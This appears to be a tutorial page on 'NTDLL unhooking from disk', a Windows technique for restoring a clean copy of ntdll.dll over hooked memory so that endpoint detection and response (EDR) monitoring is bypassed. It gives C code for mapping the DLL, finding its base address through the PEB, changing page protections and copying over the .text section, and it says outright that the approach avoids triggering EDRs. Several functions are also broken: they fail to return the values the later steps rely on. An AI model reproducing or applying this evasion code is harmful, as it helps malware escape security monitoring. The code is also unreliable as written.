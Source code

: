 # NTDLL Unhooking - From Disk

## Introduction

REMINDER: When a DLL is read from disk the offset will be 0x400 (1024).&#x20;

<mark style="color:yellow;">**Tl;DR**</mark> Mapping an image into memory rather than reading from disk is more reliable and preferred method.



## Reading NTDLL

The first step is to read NTDLL from disk (C:\Windows\System32\ntdll.dll). There are two methods we can use to do this.&#x20;

* ReadFile (Reads file from disk - 1024 offset)
* CreateFileMapping & MapViewOfFile - (4096 offset MUST include`SEC_IMAGE` or `SEC_IMAGE_NO_EXECUTE` flags in `CreateFileMappingA)` or offset remains 1024.

I'm not going to include a ReadFile example.&#x20;

## Mapping NTDLL

Something worth noting: SEC\_IMAGE\_NO\_EXECUTE does not trigger [PsSetLoadImageNotifyRoutine](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-pssetloadimagenotifyroutine) callback. Using this will not trigger EDRs.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CreateFileMappingW & MapViewOfFile

```c
BOOL MapNtdllFromDisk() {
    HANDLE hFile = NULL;
    HANDLE hMappingFile = NULL;

    hFile = CreateFileW(ntdllFullPath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        wprintf(L"CreateFileW Failed %d\n", GetLastError());
        return FALSE;
    }
    DWORD dwFileSize = GetFileSize(hFile, NULL);
    if (dwFileSize == INVALID_FILE_SIZE) {
        wprintf(L"GetFileSize Failed %d\n", GetLastError());
        return FALSE;
    }
    // Use SEC_IMAGE_NO_EXECUTE (needed for offset & not to trigger callback)
    hMappingFile = CreateFileMappingW(hFile, NULL, PAGE_READONLY | SEC_IMAGE_NO_EXECUTE, 0, 0, (LPCWSTR)NULL);
    if (!hMappingFile) {
        wprintf(L"CreateFileMappingW Failed: %d\n", GetLastError());
        return FALSE;
    }

    LPVOID lpBuffer = MapViewOfFile(hMappingFile, FILE_MAP_READ | FILE_MAP_COPY, 0, 0, 0);
    if (lpBuffer == NULL) {
        wprintf(L"MapViewOfFile Failed: %d\n", GetLastError());
        return FALSE;
    }

    wprintf(L"lpBuffer: %p\n", lpBuffer);
}
```

####

### Reading vs Mapping NTDLL

Sometimes when the `ntdll.dll` file is read from disk rather than mapped to memory, the offset of its text section might be 4096 instead of the expected 1024.&#x20;

Mapping the `ntdll.dll` file to memory is <mark style="color:yellow;">more reliable since the text section offset will always equal the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`IMAGE_SECTION_HEADER.VirtualAddress`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">offset of the DLL file</mark>.



## Unhooking NTDLL



### 1.) Get NTDLL Base Address

There are multiple ways to get a local NTDLL base address. Here is the best way:

* InMemoryOrder.Flink->Flink is a pointer to the second entry in the linked list. This is `ntdll.dll`, the first entry is the running process (unhooking\_ntdll.exe).
* InMemoryOrder.Flink->Flink actually points to the <mark style="color:yellow;">END</mark> of the entry rather than the beginning. The size of the LIST\_ENTRY structure is 0x10, therefore we subtract 0x10 to move the pointer to the beginning.

```c
PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}
```

Alternatively, you can use GetModuleHandle() but is a worse approach than above.

### 2.) Fetching The Local NTDLL.DLL Text Section

Getting NTDLL.DLL Text section is easy as getting `BaseOfCode` & `SizeOfCode` from `PIMAGE_OPTIONAL_HEADER`

```c
BOOL FetchLocalTextSectionNtdll(PVOID pBaseAddress) {
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pBaseAddress;
    PIMAGE_NT_HEADERS pNtHeaders = (PIMAGE_NT_HEADERS)(pBaseAddress + pDosHeader->e_lfanew);
    PIMAGE_OPTIONAL_HEADER pOptionalHeader = (PIMAGE_OPTIONAL_HEADER)&pNtHeaders->OptionalHeader;

    DWORD dwSizeOfText = pOptionalHeader->SizeOfCode;
    PVOID pAddressOfText = pBaseAddress + pOptionalHeader->BaseOfCode;

}

```

Alternatively, you can iterate pNtHeaders->FileHeader.NumberOfSections and search .text.&#x20;



### 3.) Fetching the Unhooked NTDLL.DLL Text Section

We can use our mapping function we created earlier to get the base address of the unhooked ntdll.dll .text section.

We then simply add the base address with the offset (4096 for mapping, 1024 for ReadFile).

```c
ULONG_PTR pUnhookedTxtNtdll = (ULONG_PTR)(MapNtdllFromDisk()) + 4096; // or IMAGE_SECTION_HEADER.VirtualAddress of ntdll.dll
```



### 4.) .Text Section Replacement

We now have everything we need. We can now swap the text section of the unhooked ntdll with the hooked using **memcpy**.

Before we swap we need to change permissions via `VirtualProtect` WinAPI by setting the `PAGE_EXECUTE_WRITECOPY` or `PAGE_EXECUTE_READWRITE` flags.&#x20;

After we've copied the text section we will change back to original permissions.

```c
BOOL SwapNtdllTextSections(IN PVOID pLocalNtdll, IN PVOID pUnhookedNtdll, IN DWORD dwSizeOfText) {
    wprintf(L"Local NTDLL: %p\nUnhooked NTDLL: %p\nSize of Text: %d\n", pLocalNtdll, pUnhookedNtdll, dwSizeOfText);
    // Update Local NTDLL Memory Permissions to RWX Access (Currently only RX)
    DWORD dwOldPermissions = 0;
    if (!VirtualProtect(pLocalNtdll, dwSizeOfText, PAGE_EXECUTE_WRITECOPY, &dwOldPermissions)) {
        wprintf(L"VirtualProtect Failed %d", GetLastError());
        return FALSE;
    }
    getchar();
    // Copy Memory from Unhooked to Local
    memcpy(pLocalNtdll, pUnhookedNtdll, dwSizeOfText);

    if (!VirtualProtect(pLocalNtdll, dwSizeOfText, dwOldPermissions, NULL)) {
        wprintf(L"VirtualProtect Failed %d", GetLastError());
        return FALSE;
    }
    return TRUE;
}
```
